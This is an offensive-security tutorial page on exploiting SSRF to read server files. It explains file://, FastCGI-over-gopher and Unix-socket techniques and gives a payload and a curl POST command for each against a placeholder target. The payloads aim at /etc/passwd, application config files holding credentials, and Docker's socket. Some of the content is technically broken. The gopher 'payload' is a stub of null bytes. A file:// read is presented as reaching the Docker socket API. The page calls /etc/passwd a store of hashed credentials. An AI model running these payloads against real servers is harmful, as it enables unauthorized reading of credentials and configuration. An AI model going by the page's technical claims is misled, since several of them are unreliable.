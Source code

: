 ```yaml
---
title: SSRF File Access Exploitation Techniques
description: Learn how SSRF vulnerabilities enable unauthorized file access on servers.
  Explore exploitation techniques targeting sensitive files via SSRF.
keywords:
- SSRF
- File Access
- Exploitation
- Server Vulnerabilities
- Unauthorized File Read
- Local File Inclusion
- FastCGI
- Unix Socket
---
```


# File Access

## Context

The objective of this article is to demonstrate how Server-Side Request Forgery (SSRF) vulnerabilities can be exploited to access unauthorized files on target servers. This assumes a foundational understanding of file system permissions, web server configurations, HTTP request methods, and SSRF mechanisms.

## Theory

### File Protocols in SSRF Exploitation

The file:// protocol is a powerful SSRF vector allowing attackers direct access to files on a target server. By abusing SSRF vulnerabilities, attackers can employ the file:// scheme to instruct the server to read specific files. This poses a significant risk when web applications fail to restrict SSRF destinations strictly, making local files exposed to malicious requests.

### Targeting Sensitive Files

A common initial target for file access through SSRF is the /etc/passwd file on Unix systems. Successfully reading this file is a clear indicator of arbitrary file read capabilities. While the /etc/passwd file generally contains hashed user credentials, its access confirms the SSRF attack vector and can be crucial for user enumeration and further exploitation.

### Local File Inclusion via SSRF

Local File Inclusion (LFI) vulnerabilities occur when unsanitized user input is used in file path constructions within server-side code. By supplying specially crafted file:// URLs to SSRF vulnerable endpoints, attackers can manipulate backend server processes to execute unintended file reads with potentially devastating consequences.

### Advanced File Access Techniques

Advanced SSRF exploitation techniques can target FastCGI interfaces and Unix socket endpoints. The FastCGI protocol can expose file reading capabilities when SSRF payloads craft requests to interact with backend systems, potentially over gopher:// schemes. Unix domain sockets provide a bypass route, and SSRF can reach privileged operations by accessing these sockets, offering another layer of potentially devastating exploitation avenues.

## Practice

### Direct File Read via file:// Protocol

Using SSRF vulnerabilities, attackers can directly access files using the file:// protocol. This technique involves crafting payloads to trick the server into reading files.

- **Payload**: Use the following payload to access the Unix `/etc/passwd` file.
  
  ```text
  file:///etc/passwd
  ```

- **Command**: Deploy the payload using `curl` to send a POST request.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///etc/passwd'
  ```

**Outcome**: This delivers unauthorized access to the contents of `/etc/passwd`, allowing the attacker to validate arbitrary file read capabilities.

### Arbitrary File Read via SSRF Parameter Manipulation

Leverage SSRF vulnerabilities to read arbitrary files that the server process can access.

- **Payload**: Target specific configuration files that might contain sensitive information.

  ```text
  file:///var/www/html/config.php
  ```

- **Command**: Execute using the following `curl` command.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///var/www/html/config.php'
  ```

**Outcome**: Successfully accessing server-readable files could expose sensitive data, such as application configurations or credentials.

### File Read via FastCGI SSRF

Tamper with SSRF vectors to exploit FastCGI backend interfaces that handle file reads.

- **Payload**: Construct a gopher payload strategically for FastCGI data access.

  ```text
  gopher://127.0.0.1:9000/_%00%00%00%01%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00
  ```

- **Command**: Pass this via `curl` to the vulnerable service.
  
  ```bash
  curl -X POST 'https://target/app' -d 'url=gopher://127.0.0.1:9000/_<payload>'
  ```

**Outcome**: Gain file content access via FastCGI by exploiting its response to SSRF queries.

### File Access via Unix Socket SSRF

Access Unix socket files using essential SSRF payloads, testing server socket interactions.

- **Payload**: Direct access to Docker's Unix socket file.

  ```text
  file:///var/run/docker.sock
  ```

- **Command**: Utilize `curl` to send payloads.

  ```bash
  curl -X POST 'https://target/app' -d 'url=file:///var/run/docker.sock'
  ```

**Outcome**: This interaction can facilitate further malicious activities by enabling communication with Unix socket-based APIs.

## Tools

- **curl**
- **Burp Suite**